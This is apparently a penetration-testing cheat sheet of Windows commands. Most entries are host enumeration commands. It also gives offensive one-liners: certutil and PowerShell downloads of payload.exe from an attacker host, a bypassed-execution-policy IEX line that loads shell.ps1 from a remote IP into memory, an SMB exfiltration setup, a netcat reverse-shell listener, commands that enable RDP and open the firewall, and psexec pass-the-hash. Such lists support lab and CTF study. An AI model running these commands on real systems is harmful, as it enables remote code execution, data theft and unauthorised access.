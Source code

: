 ```yaml
---
title: Windows Commands 
---
```


## Reverse Shell

https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/

nc -lvp 4444

## Windows Commands

Find installed patches, architecture, OS version
```cmd
systeminfo
```
Machine name
```cmd
hostname
```
What is my username?
```cmd
whoami
```
What users/localgroups are on the machine?
```cmd
net users
net localgroups
```
More info about a specific user. Check if user has privileges
```cmd
net user <user1>
```
User privilege
```cmd
whoami /priv
```
Disk Drive
```cmd
wmic logicaldisk get caption,description,providername`
```
Download file in the target machine
```cmd
certutil -urlcache -f http://[attackerIp]/payload.exe payload.exe
```
File and directory permission
```cmd
cacls /Desktop/test.txt
accesschk.exe -qwsu "<user>" "<path>"
accesschk.exe -qwsu "Users" *
```
wmic service filter
```cmd
wmic service where "name= 'OpenSSHd'" get name,pathname,status
```
List of Service
```cmd
wmic service get Caption,StartName,State,pathname
```
List of Process
```cmd
wmic process get ProcessID,ExecutablePath
```
Network
```cmd
ipconfig /all
route print
arp -A
```
Port forward & connect form linux to SMB 
```cmd
# Port forward using plink
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```
```cmd
winexe -U [user]%[password] //[IP] "cmd.exe"
```
> Note: in ssh_config uncomment PermitRootLogin yes

Firewall Configuration
```cmd
netsh firewall show state
netsh firewall show config
```
Evarioment Variable
```cmd
set
```
How well patched is the system?
```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
Loading Powershell scripts directly in memory
```cmd
powershell.exe -ep Bypass -c "IEX ((new-object net.webclient).downloadstring('http://10.0.1.14:80/shell.ps1'))"
```
Downlaod file with Powershell 
```cmd
powershell.exe -ep Bypass -c iex ((New-Object System.Net.WebClient).DownloadFile("https://attacker/payload.exe", "C:\Users\user1\payload.exe"))
```
SMB Exfiltration
```cmd
kali_op1> impacket-smbserver -smb2support kali `pwd`
MD-Wind> net use \\10.10.14.14\kali
```
Information about process
```cmd
tasklist /v
```
Run a command as another user
```cmd
runas /user:<localmachinename>\administrator cmd
```
Process info
```cmd
wmic process get Caption,Commandline,Processid
```
Service info
```cmd
wmic service get name,status,startname,pathname
```
Process Owner 
```cmd
tasklist /V /FI "IMAGENAME eq explorer.exe"
wmic process where "name='taskeng.exe'" call GetOwner
```
Process List 
```cmd
powershell.exe Get-Process  | Select-Object Id,Name,Path
```
Current Connection
```cmd
netstat -lpno
```
Start and stop a service
```cmd
net start/stop servicename
```
Installed applications
```cmd
psinfo.exe -s
```
UAC is enable?
```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```
Content of a file
```cmd
more file.txt
```
RDP from Kali
```cmd
rdesktop -u user -p password <IP> -g 95% 
```
Enable rdp
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
```cmd
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
Psexec

```cmd
python3 psexec.py user:password@<ip>
```
```cmd
python3 psexec.py -hashes LMHASH:NTHASH user@<ip>
```

